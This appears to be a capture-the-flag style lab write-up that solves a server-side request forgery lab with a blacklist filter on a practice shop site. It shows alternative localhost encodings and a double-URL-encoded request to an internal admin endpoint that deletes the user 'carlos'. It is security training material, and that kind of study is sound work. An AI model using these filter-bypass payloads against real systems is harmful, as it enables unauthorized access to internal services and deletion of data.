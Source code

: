 the parameter stockApi here is like lab-1 
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

decode it :
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1

let's try just the same as lab-1

stockApi=http://localhost/admin/delete?username=carlos

response : 

![image](https://user-images.githubusercontent.com/67979878/128211514-ccebfd38-fd0d-4704-a11f-3a7f2d83f1ba.png)

let's try different representation for the localhost 

ex: 2130706433, 017700000001 , 127.1 

it can access `stockApi=http://127.1/ ` 

however when try /admin it returns bad request .

``
By using double encoding it’s possible to bypass security filters that only decode user input once. 
The second decoding process is executed by the backend platform or modules that properly handle encoded data,
but don’t have the corresponding security checks in place.``

so let's check it :

`http://127.1/%61%64%6D%69%6E%2F%64%65%6C%65%74%65%3F%75%73%65%72%6E%61%6D%65%3D%63%61%72%6C%6F%73`

now encode it all 
`http%3a%2f%2f127.1%2f%2561%2564%256D%2569%256E%252F%2564%2565%256C%2565%2574%2565%253F%2575%2573%2565%2572%256E%2561%256D%2565%253D%2563%2561%2572%256C%256F%2573`

solved !
